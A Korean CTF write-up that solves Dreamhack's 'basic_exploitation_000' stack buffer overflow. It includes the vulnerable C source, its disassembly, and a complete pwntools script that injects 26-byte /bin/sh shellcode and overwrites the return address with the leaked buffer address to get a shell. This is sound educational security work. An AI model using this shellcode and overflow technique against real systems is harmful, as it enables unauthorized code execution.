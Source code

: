 # [basic_exploitation_000](https://dreamhack.io/wargame/challenges/2/) 

 문제 파일의 코드는 다음과 같다. 주석은 코드의 해석들 위하여 본인이 직접 작성한 것이다.

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0); // 표준 입력에서 버퍼를 사용하지 않는다.버퍼를 지나지 않고 요청 즉시 작업이 진행된다. 
    setvbuf(stdout, NULL, _IONBF, 0); // 표준 출력에서 버퍼를 사용하지 않는다. 버퍼를 지나지 않고 요청 즉시 작업이 진행된다.

    signal(SIGALRM, alarm_handler); // SIGALRM이 발생하면 alarm_handler를 실행한다.
    alarm(30);//30초 후에 SIGALRM을 발생시킴.
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf); //buf의 주소 값을 출력
    scanf("%141s", buf);

    return 0;
}
```

## Exploit strategy
 유심히 봐야할 코드는 scanf("%141s", buf); 이다. buf의 크기는 0x80 = 128 byte이므로 scanf를 통하여 buf의 크기보다 더 많은 양의 데이터를 입력할 수 있다. 이를 이용하여 스택 버퍼 오버 플로우를 발생시키면 된다. pwndbg를 통하여 주어진 바이너리 파일의 main함수를 disassemble하여 살펴보자. 
 
```assembly 
   0x080485d9 <+0>:     push   ebp
   0x080485da <+1>:     mov    ebp,esp
   0x080485dc <+3>:     add    esp,0xffffff80
   0x080485df <+6>:     call   0x8048592 <initialize>
   0x080485e4 <+11>:    lea    eax,[ebp-0x80]
   0x080485e7 <+14>:    push   eax
   0x080485e8 <+15>:    push   0x8048699
   0x080485ed <+20>:    call   0x80483f0 <printf@plt>
   0x080485f2 <+25>:    add    esp,0x8
   0x080485f5 <+28>:    lea    eax,[ebp-0x80] // 오버플로우를 발생시킬 버퍼는 ebp-0x80에 위치함. 
   0x080485f8 <+31>:    push   eax
   0x080485f9 <+32>:    push   0x80486a5
   0x080485fe <+37>:    call   0x8048460 <__isoc99_scanf@plt>
   0x08048603 <+42>:    add    esp,0x8
   0x08048606 <+45>:    mov    eax,0x0
   0x0804860b <+50>:    leave
   0x0804860c <+51>:    ret
```

lea eax,[ebp-0x80]를 보면 오버플로우를 발생시킬 버퍼는 ebp-0x80에 위치함을 알 수 있다. 스택 프레임의 구조를 떠올려보자. ebp에는 SFP가 저장되므로 ebp+0x4(공격 대상 컴퓨터는 32bit이므로 포인터 크기는 4바이트이기 때문이다.)에 return address가 저장될 것임을 알 수 있다. 그런데 return address에 shell code를 넣을 수는 없다. 우리가 사용할 쉘코드는 26바이트이기 때문이다.(scanf는 \x09, \x0a, \x0b, \x0c, \x0d, \x20를 읽지 못하는데 25byte인 일반적인 shell code는 \x0b를 포함하므로 사용할 수 없다.) 따라서 return address에 buf의 주소를 넣고 buf안에 shell code를 넣어 shell code를 실행시킬 것이다.이제 Exploit script를 작성해보자. 

## Exploit script

```python
# importing pwntools
from pwn import* 

# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 매개변수는 각각 호스트와 포트넘버이다.
p = remote('host1.dreamhack.games',21920) 

# 공격 대상 아키텍쳐는 x86
context.arch = 'i386' 

# buf의 주소 값을 담는 작업
p.recvuntil('buf = (') #  주소 값을 따로 저장하기위해 'buf = (' 까지만 받는다.
buf_addr = int(p.recv(10),16) # 문자열로 받은 주소 값을 16진수 정수로 변환하여 저장
p.recvline() # 남은 ")\n" 처리

# payload 작성
payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80" # 버퍼에 담을 26byte shell code
payload += b"\x90"*(132-26) # ebp+0x3까지 담을 더미 값 
payload += p32(buf_addr) # return address에 들어갈 buf의 주소 값을 32bit packing(little endian의 byte 배열로 변경)

# payload + '\n'을 전송
p.sendline(payload) 

# 셸을 획득했으므로 interactive 함수 사용
p.interactive()
```


